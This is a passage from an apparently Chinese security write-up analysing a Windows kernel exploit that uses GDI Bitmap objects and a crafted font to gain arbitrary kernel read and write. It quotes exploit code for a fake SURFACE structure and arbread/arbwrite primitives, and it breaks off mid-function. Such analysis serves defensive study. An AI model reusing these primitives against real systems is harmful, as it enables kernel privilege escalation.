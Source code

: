 ```

```

其中，Address0其实是指向Bitmap中BitsBuffer的指针，我们可以通过SetBitmapBits函数来操作BitsBuffer指向的内存，可以写入bitmap对象的SURFACE内核结构后，攻击代码就可以通过控制Address0来实现任意地址读写。

在攻击代码中，使用了两个Bitmap对象，一个Bitmap用来控制读写地址，另一个Bitmap2用来进行实际读写，我们将Bitmap2作为读写地址控制器，将其pBitsBuffer指向实现实际读写的Bitmap的pBitsBuffer的地址，这样就可以实现多次稳定的任意地址读写。

也就是说，我们通过对Bitmap2进行 SetBitmapBits,设置实际读写的 Bitmap的pBitsBuffer为我们想要读写的地址，然后就可以通过进行实际读写的Bitmap的GetBitmapBits和SetBitmapBits来实现对指定地址的读写了，如图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/23e4dbec502e830c3d762dff281a27b1cc4b9050.jpg)

我们看到，在攻击代码中，首先创建了一个假的Bitmap对象，然后将这个对象写到字体的Charset中：

```
01  surf32.width = largebitmapw;
02  surf32.height = largebitmaph;
03  surf32.size = surf32.width*surf32.height * 4;
04   
05  //point to hBitmap SURFACE->address0, which contains the kernel address of bitmap data
06  surf32.address0 = surf32.address1 = handleaddr(lpTable->locals->hBitmap) + 0x2C;
07  surf32.scansize = surf32.width * 4;
08  surf32.bmpformat = 0x6; //BMF_32BPP
09  surf32.surftype = 0x00010000; //STYPE_DEVICE
10  surf32.surflags = 0x04800000; //API_BITMAP | HOOK_TEXTOUT
11   
12  //write to the OTF data loaded from font.h
13  for (i = 0; i < sizeof(surf32); i += 2) {
14  unsigned short tmp = *(unsigned short*)((unsigned int)&surf32 + i);
15  *(unsigned short*)(lpTable->lpLoaderConfig->foofont + 0x16DF3 + i) = lpTable->fpHtons(tmp);
16  }

```

上面的攻击代码中，则将这个假的Bitmap对象的address0，也就是pBitsBuffer设置成了进行实际读写的bitmap的pBitsBuffer的地址。所以这个假的Bitmap对象就是我们上面提到的控制读写地址的Bitmap2。

最后下面就是完整的利用这个方式实现的任意内核地址的读（arbread）和写（arbwrite）代码:

```
01  unsigned int arbread(PVTABLE lpTable, unsigned int addrl, unsigned int addrh) {
02  unsigned int tmp[4];// = {0,0,0,0};
03   
04  __MEMSET__(tmp, 0, 4);
05   
06  if (lpTable->locals->is64) {
07  tmp[0] = tmp[2] = addrl;
08  tmp[1] = tmp[3] = addrh;
09  lpTable->fpSetBitmapBits(lpTable->locals->thehandle, sizeof(tmp), &tmp);
10   
11  lpTable->fpGetBitmapBits(lpTable->locals->hBitmap, sizeof(tmp[0]), &tmp[0]);
12  } else {
13  tmp[0] = tmp[1] = addrl;
14  lpTable->fpSetBitmapBits(lpTable->locals->thehandle, 8, &tmp);
15   
16  lpTable->fpGetBitmapBits(lpTable->locals->hBitmap, sizeof(tmp[0]), &tmp[0]);
17  }
18   
19  return tmp[0];
20  }
21   
22  // ported
23  unsigned int arbwrite(PVTABLE lpTable, unsigned int addrl, unsigned intaddrh, unsigned int value0, unsigned int value1) {
24  unsigned int tmp[4]; // = {0,0,0,0};
```